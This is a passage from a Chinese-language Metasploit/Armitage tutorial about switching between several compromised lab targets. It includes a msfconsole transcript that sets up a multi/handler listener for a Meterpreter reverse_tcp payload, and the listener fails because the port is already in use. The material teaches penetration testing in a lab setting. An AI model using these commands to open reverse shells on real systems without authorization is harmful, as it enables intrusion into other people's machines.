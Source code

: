 +   msfconsole 显示会话的开启![它是如何工作的...](img/7423_09_07.jpg)

您可以看到在不传递任何命令的情况下利用目标是多么容易。GUI 提供了 Metasploit 中基于命令的所有功能。这就是为什么 Armitage 为框架增加了更多功能的原因。然而，对 msfconsole 命令的良好了解是必不可少的。我们不能完全依赖 GUI。使用 Armitage 的 GUI 无法利用的几个 MSF 功能。

在下一个配方中，我们将分析使用 Armitage 进行后期利用。

# 使用选项卡切换处理多个目标

在之前的几个配方中，我们已经看到了 Armitage GUI 如何简化利用过程。在这个配方中，我们将看到使用 Armitage 的另一个优势。当我们在 Metasploit 中处理多个目标时，我们必须在会话之间切换以管理它们。在 Armitage 中，通过使用不同的选项卡来进一步简化在多个目标之间切换的过程。让我们看看如何做到这一点。

## 如何操作...

在上一个配方中，我们已经攻破了我们的 Windows XP 目标。我们还有两个目标可供选择。我们可以通过右键单击 Windows 2008 Server 来利用它。或者，我们也可以通过转到**查看** | **控制台**来启动一个新的控制台。这将启动一个新的控制台，我们可以使用命令行来攻破目标。

## 它是如何工作的...

让我们设置一个多处理程序，并利用客户端漏洞攻击目标。

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.56.101:15263
[-] Handler failed to bind to 0.0.0.0:15263
[-] Exploit exception: The address is already in use (0.0.0.0:15263).
[*] Exploit completed, but no session was created. 
```

您可以看到，利用命令抛出了一个错误，即无法在`192.168.56.101:15263`上绑定反向处理程序。这是因为我们在攻击 Windows XP 目标时已经在此端口上建立了反向连接。因此，我们将不得不更改端口号并再次使用利用命令。
